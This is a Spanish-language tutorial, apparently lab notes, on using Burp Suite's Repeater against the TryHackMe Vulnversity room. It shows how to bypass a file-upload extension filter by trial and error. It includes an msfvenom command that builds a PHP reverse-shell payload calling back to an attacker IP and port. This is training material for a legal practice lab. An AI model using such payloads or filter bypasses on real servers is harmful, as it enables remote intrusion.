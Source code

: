 # Burp Suite – Uso del Repeater

Maquinas a utilizar **Kali Linux y  Laboratorio de Try Hack Me  Vulnversity**  https://tryhackme.com/room/vulnversity

Una vez hayamos interceptado una petición HTTP con burp suite, es posible que necesitemos realizar diversas comprobaciones dentro de una petición para encontrar la vulnerabilidad; y para ello disponemos del **repeater**. De tal forma que podremos modificar de forma cómoda las peticiones e ir enviándolas al servidor web para analizar sus respuestas.

- Vamos a aplicar antes de nada un pequeño ajuste dentro del navegador web.
    
    **Ajustes → Settings**
    
    **General→ Network Settings**
    
    **Manual proxy configuration**
    
    **HTTP Proxy: 127.0.0.1  Port: 8080**
    
- Activamos la interceptación en BurpSuite
    
    **Proxy → intercept on**
    
- Subimos el archivo malicioso que habíamos creado con el siguiente comando:
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![image.png](./imagenes/image%20114.png)
    
    ![image.png](./imagenes/image%20115.png)
    

- **¿Qué pasaría si no se que extensión poner al archivo?**
    
    ![image.png](./imagenes/image%20116.png)
    

- Para eso tenemos la opción de **Repeater.** Tenemos dos formas de acceder a Repeater.
    1. Haciendo un **clip derecho** y pulsar en **Send to Repeter**.
        
        ![image.png](./imagenes/image%20117.png)
        

1. Pulsando **CTRL+R**

- Haciendo esto hemos enviado la petición al apartado Repeater.
    
    ![image.png](./imagenes/image%20118.png)
    
    Si cambiar nada pulsamos enviamos la petición pulsando  el botón **Send,** vemos que nos llega la respuesta. Y podemos observar que nos devuelve Extensión no permitida.
    
    ![image.png](./imagenes/image%20119.png)
    

Podemos ir probando distintas extensiones y ver si la respuesta cambia. Por ejemplo vamos a ponerle extensión TXT la enviamos.

![image.png](./imagenes/image%20120.png)

Lo interesante aquí es **probar extensión por extensión hasta acertar**.

![image.png](./imagenes/image%20121.png)

Aquí lo hemos hecho con extensiones pero podríamos probar con cualquier parámetro de la petición hasta acertar que nos permita el cambio.

- Nos vamos al **apartado de proxy** le ponemos la **extensión correcta** que hemos averiguado con el Repeater y le daríamos a **Forward.**